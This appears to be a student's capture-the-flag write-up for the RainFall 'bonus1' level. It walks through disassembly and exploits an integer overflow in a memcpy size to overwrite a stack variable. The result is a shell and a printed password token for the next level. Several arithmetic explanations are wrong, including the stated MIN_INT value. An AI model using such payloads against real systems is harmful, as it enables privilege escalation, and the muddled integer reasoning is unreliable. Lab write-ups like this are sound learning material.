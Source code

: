 # Bonus 1

- Once logged in, you will see a binary `bonus1`

```
[???]$ ssh localhost -p 4242 -l bonus1
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$ ls
bonus1
bonus1@RainFall:~$

```

by executing the program, it segfault with no argument, and does nothing with the argument.
```
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 aaaaaaaaaaaaaaaa
bonus1@RainFall:~$
```

By taking a look at the binary, the function is calling execl, and on the above, in order to fall into the condition, the value esp+0x3c needs to be equal to `0x574f4c46`

```
gdb-peda$ disass main
[...]
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
gdb-peda$ x/s 0x8048580
0x8048580:	 "sh"
gdb-peda$ x/s 0x8048583
0x8048583:	 "/bin/sh"
gdb-peda$ x/s 0x0
0x0:	 <Address 0x0 out of bounds>
```

In order to prevent program to jump to <main+127>, the input has to be less and equal to 9 (`because of the operator JLE--Jump less or equal `), so that we can access to `memcpy()`, which might be usable for vulnerbility. Also, by looking at <+68> to <+72>, it is easily noticable that it takes two arguments.
```
   [...]
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1						;
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]				; setting ecx (eax(x) *4 + 0x0(0) = 4 * x)
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx		; ecx is 4 * x
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx		; address of src
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax			; address of dst
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   [...]
```

So the condition of two arguments needs to be set as following:
	- the first argument needs to be less than equal to 9
	- the second argument will needs to be equal to `0x574f4c46`, because of the comparison

How are we going to achieve each? because the number will be stored as DWORD(32 bits = int in 32 bits), the minimum number of interger is MIN_INT = `-2147483647`, and once multiplying by 4, the number will become 4. We want the value passed into last parameter for `memcpy` to be stored as at least bigger than 40 (beginning with -2147473637 to ...). (padding + value) For second argument, the second argument is copied into a buffer located 40 bytes above the location of the call `atoi()`.

and the number can be

So the payload will be the following:

```
  argv[1]        argv[2]
-2147483630  |  "A"* 40 + "\x46\x4c\x4f\x57"

-2147483630 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

```
bonus1@RainFall:~$ ./bonus1 -2147483630 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$
$ whoami
bonus2
$ cat /home/user/$(whoami)/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```
